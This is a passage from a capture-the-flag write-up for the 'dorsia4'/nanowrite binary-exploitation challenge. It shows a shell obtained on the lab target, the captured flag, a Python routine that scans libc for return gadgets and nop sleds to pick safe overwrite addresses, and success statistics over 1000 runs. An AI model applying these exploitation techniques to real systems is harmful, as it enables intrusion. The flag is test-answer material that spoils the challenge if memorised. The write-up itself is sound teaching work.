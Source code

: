 ```

[*] Switching to interactive mode
$ id
uid=1000(ctf) gid=1000(ctf) groups=1000(ctf)
$ ls -l
total 28
-r-xr-x--- 1 ctf ctf    42 Apr 16 00:54 flag.txt
-r-xr-x--- 1 ctf ctf 19288 Apr 17 09:57 nanowrite
-r-xr-x--- 1 ctf ctf    88 Apr 16 01:00 run_problem.sh
$ cat flag.txt
WPI{D0_you_like_Hu3y_Lew1s_&_the_News?}
```


#### Flag

```
WPI{D0_you_like_Hu3y_Lew1s_&_the_News?}
```


### _Alternative Ending_

While there are some other minor changes to [exploit2.py](exploit2.py) the meat of the change is in the _computing safe address..._ section:

```python
def nopsled(addr):
    a = []
    for i in range(len(nops)-1,-1,-1):
        if code[addr-i-1:addr] == nops[i].to_bytes(i+1,byteorder='big'):
            a.append(addr-i-1)
            a += nopsled(addr-i-1)
    return a

addrs = []
code = open('libc.so.6','rb').read()
t=time.time()
print("\ncomputing safe addresses...",end="")
for i in range(len(code)):
    if code[i] == 0xc3 or i == libc.symbols['printf'] or i == gadget:
        addrs.append((baselibc + i) & 0xFFFFFF)
        addrs += [((baselibc + x) & 0xFFFFFF) for x in nopsled(i)]
print(int(time.time() - t),end="")
print(" seconds")
```

Using recursion and checking all possible options it is now possible without adding `libc.symbols['dprintf']` to the list of safe address to solve this challenge.

After 1000 runs, here's the stats:

```
# sed 's/SIGSEGV.*/SIGSEGV/' test1000c.out | egrep "(path|SIG|WPI|dorsia4)" | sort | uniq -c | sort -r -n
   1000 [*] '/pwd/datajerk/wpictf2020/dorsia4/nanowrite'
    605 b'WPI{D0_you_like_Hu3y_Lew1s_&_the_News?}\n'
    369 no path for you!
    357 path found (len: 21):
    274 path found (len: 19):
     26 [*] Process './nanowrite' stopped with exit code -11 (SIGSEGV
```
